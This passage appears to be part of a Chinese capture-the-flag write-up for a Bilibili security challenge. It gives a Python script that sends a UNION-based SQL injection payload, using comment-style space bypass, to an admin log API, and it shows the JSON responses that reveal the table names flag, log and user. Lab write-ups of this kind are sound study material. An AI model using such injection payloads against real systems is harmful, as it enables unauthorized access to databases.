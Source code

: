 返回内容：

```
{
     "code": 200,
     "data": {
          "res_list": [
               {
                    "action": "4",
                    "id": "q",
                    "time": "5",
                    "user_id": "test@10.34.12.128",
                    "user_name": "3"
               }
          ],
          "total": 1
     },
     "msg": ""
}

```

获取表名：

```
import requests

url = "https://security.bilibili.com/sec1024/q/admin/api/v1/log/list"
json_data = {
    "user_id": "",
    "user_name": "1/**/union/**/select/**/database(),user(),3,4,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()#",
    "action": "",
    "page": 1,
    "size": 20
}

response = requests.post(url=url, json=json_data)
print(response.text)

```

返回内容，可以得到 flag、log、user：

```
{
     "code": 200,
     "data": {
          "res_list": [
               {
                    "action": "4",
                    "id": "q",
                    "time": "flag,log,user",
                    "user_id": "test@10.34.12.128",
                    "user_name": "3"
               }
          ],
          "total": 1
     },
     "msg": ""
}

```
